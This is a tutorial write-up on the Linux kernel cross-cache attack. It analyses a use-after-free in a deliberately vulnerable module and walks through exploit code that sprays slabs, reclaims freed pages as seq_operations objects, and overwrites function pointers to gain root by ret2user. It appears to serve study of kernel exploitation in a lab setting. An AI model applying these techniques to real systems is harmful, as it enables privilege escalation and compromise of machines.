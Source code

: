 ```yaml
---
title: Linux Kernel Exploitation - Cross-Cache Attack
date: 2025-04-27
categories: [Guide, Linux Kernel Exploitation]
tags: [linux, pwn]
---
```


In this post, I will explain cross-cache attack, a fundamental technique for advanced Linux kernel exploitation. Understanding this technique is important to understand other exploitation techniques, such as Dirty PageTable and DirtyCred, which I will cover in future posts. Download the [handouts](https://github.com/r1ru/linux-kernel-exploitation/tree/main/cross-cache-attack) beforehand.

## Analysis
The vulnerable LKM provides three commands: `CMD_ALLOC`, `CMD_WRITE`, and `CMD_FREE`. These commands are used to allocate, write to, and free objects defined as follows:
```c
#define OBJ_SIZE    0x200

struct obj {
    char buf[OBJ_SIZE];
};
```
Note that `obj_alloc` and `obj_free` internally use `kmem_cache_zalloc` and `kmem_cache_free`, respectively.
This means a dedicated cache is used for managing these objects:
```c
static long obj_alloc(int id) {
    if (objs[id] != NULL) {
        return -1;
    }
    objs[id] = kmem_cache_zalloc(obj_cachep, GFP_KERNEL);
    if (objs[id] == NULL) {
        return -1;
    }
    return 0;
}

static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
The cache is created in `module_initialize`:
```c
static int __init module_initialize(void) {
    if (misc_register(&vuln_dev) != 0) {
        return -1;
    }
    obj_cachep = KMEM_CACHE(obj, 0);
    if (!obj_cachep) {
        return -1;
    }
    return 0;
}
```

## Bugs
In `obj_free`, `objs[id]`, which is a reference to a freed memory region, is not cleared:
```c
static long obj_free(int id) {
    kmem_cache_free(obj_cachep, objs[id]);
    return 0;
}
```
This results in an obvious UAF. Since we already have a write primitive, it's natural to think about overlapping freed objects with some useful kernel objects, like `seq_operations` or `tty_struct`, to overwrite function pointers and control RIP. However, we cannot simply do this, since the objects are allocated from a dedicated cache. This is where cross-cache attack comes in.

## Cross-Cache Attack
The main idea of cross-cache attack is to turn a dangling reference to an object into a dangling reference to its underlying pages. As you may know, kernel objects are allocated from slab caches, which consist of one or more slabs. Each slab is made up of `2^ order` pages and contains `objs_per_slab` objects. These values can be found in /sys/kernel/slab/\<CACHE_NAME\>.

When all objects in a slab are freed, underlying pages are returned to the buddy allocator if the fllowing aditional conditions are met:
- The slab is not the active slab
- The per-cpu partial slab list is full

This technique is extremely powerful. It lets us ideally overlap victim objects with any kernel object.

## Exploitation
First, we allocate `objs_per_slab * (cpu_partial + 1)` objects to prepare `cpu_partial + 1` slabs, which will later be used to fill the per-cpu slab list:
```c
int objs_per_slab = 8;
int cpu_partial = 52;
int num_sprary = objs_per_slab * (cpu_partial + 1);

for (int i = 0; i < num_sprary; i++) {
    obj_alloc(i);
}
```
Next, we allocate one object to create a new active slab:
```c
obj_alloc(num_sprary);
```
Next, we free the objects in the slabs obtained in step 1 to fill the per-cpu partial slab list and release the underlying order-0 pages. To increase the reliability, we only free all objects in even-numbered slabs. This is because if continuous pages are freed, the buddy allocator will merge them and treat them as higher-order pages, which makes it more difficult to reclaim them later:
```c
for (int i = 0; i < num_sprary; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        for (int j = i; j < i + objs_per_slab; j++) {
            obj_free(j);
        }
    } else {
        obj_free(i);
    }
}
```
Next, we allocate a large number of `seq_operations` and make the order-0 pages freed in step 3 be used as the kmalloc-32 slabs. Since kmalloc-32 also uses order-0 pages, the attack has a high chance of success:
```c
int seqfds[0x20];
for (int i = 0; i < 0x20; i++) {
    seqfds[i] = open("/proc/self/stat", O_RDONLY);
    assert(seqfds[i] >= 0);
}
```
Finally, we use `CMD_WRITE` to overwrite function pointers in `seq_operations` and control RIP. Since SMAP, SMEP, KASLR, and KPTI are disabled, we can easily escalate privileges via ret2user:
```c
char payload[0x8];
*(unsigned long *)&payload = (unsigned long)escalate_privilege;

for (int i = 0; i < num_sprary; i += objs_per_slab) {
    if (i % (objs_per_slab * 2) == 0) {
        obj_write(i, payload, 0x8);
    }
}

for (int i = 0; i < 0x20; i++) {
    read(seqfds[i], payload, 1);
}
```
By running this exploit, we can achive root privileges and see the flag:
![win](/assets/img/posts/2025-04-27-1/win.png)

## References
1. Awarau and pql. 2022. CVE-2022-29582. https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#crossing-the-cache-boundary
2. Imran Khan. 2022. Linux SLUB Allocator Internals and Debugging, Part 1 of 4. https://blogs.oracle.com/linux/post/linux-slub-allocator-internals-and-debugging-1